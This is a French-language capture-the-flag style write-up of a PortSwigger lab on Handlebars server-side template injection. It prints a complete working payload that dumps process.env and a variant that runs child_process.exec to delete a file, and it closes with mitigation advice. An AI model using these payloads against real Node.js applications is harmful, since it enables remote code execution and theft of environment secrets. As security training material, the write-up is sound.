


# Server-side template injection in an unknown language with a documented exploit

https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit


## Découvertes de la vulnérabilité

En explorant la page du lab, nous avons la possibilité de consulté le details de plusieurs produits, mais lorsque l'on essaie de consulte les détails du premier produit, nous avons une erreur qui apparait `Unfortunately this product is out of stock`.

En regadant plus précisement l'url après avoir recu l'erreur, on peux remarqué que l'url possède un SearchParams appelé `message`, qui contient notre erreur.



La réponse de la requete effectué replace tout le dom actuel par le nouveau, affichant en plus l'erreur, cela signifie que le rendu est généré coté backend et qu'a partir du SearchParams `message` il serais possible d'avoir un impact direct sur le backend.

En testant différente chaine de caractère dans le SearchParams `message` il est possible de constater une erreur si cette chaine utilise certains caractère spéciaux, l'erreur affiché est la suivante:

```
/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267 throw new Error(str); ^ Error: Parse error on line 1: {{ --^ Expecting 'ID', 'STRING', 'NUMBER', 'BOOLEAN', 'UNDEFINED', 'NULL', 'DATA', got 'EOF' at Parser.parseError (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267:19) at Parser.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:336:30) at HandlebarsEnvironment.parse (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/base.js:46:43) at compileInput (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:515:19) at ret (/opt/node-v19.8.1-linux-x64/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/compiler.js:524:18) at [eval]:5:13 at Script.runInThisContext (node:vm:128:12) at Object.runInThisContext (node:vm:306:38) at node:internal/process/execution:83:21 at [eval]-wrapper:6:24 Node.js v19.8.1
```

Cette erreur indique une erreur dans le parsing du message avec le module `handlebars`. La question serais alors de savoir si il existe des technique d'injection avec handlebars ?

En recherchant sur le web "handlebars injection" on peux trouver un lien sur [`hackerone.com`](https://hackerone.com/reports/423541) qui nous envoie un article qui explique que handlebars permetterais d'accéder à certaines données coté backend, par exemple la récupération du contenue du ficheir .env. Si cela serais possible, la suppression du fichier morale.txt le serais egalement possible. 

Dans l'article on peux retrouver ce code, qui return un json du .env.
```js
{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return JSON.stringify(process.env);"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

Il suffit simplement de modifier la ligne de return pour supprimer le fichier:
```js
[...]
    {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
[...]
```

Voici donc le résultat finale du code d'injection qu'il faudra ajouter encodé comme url avant de l'ajouter comme valeur au SearchParams `message`:
```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

## Résultat:




## Recommandations de sécurisation:
- Désactiver les erreurs de debug en production
- Empecher l'envoie de la requete si message contient `{{`
- Utiliser `{{` à la place de `{{{`
- Créer une CI/CD pour vérifier l'utilisation de `{{` à la place de `{{{`
- [Handlebars JS: Safe Usage to Avoid Injection Flaws](https://xygeni.io/blog/handlebars-js-safe-usage-to-avoid-injection-flaws/)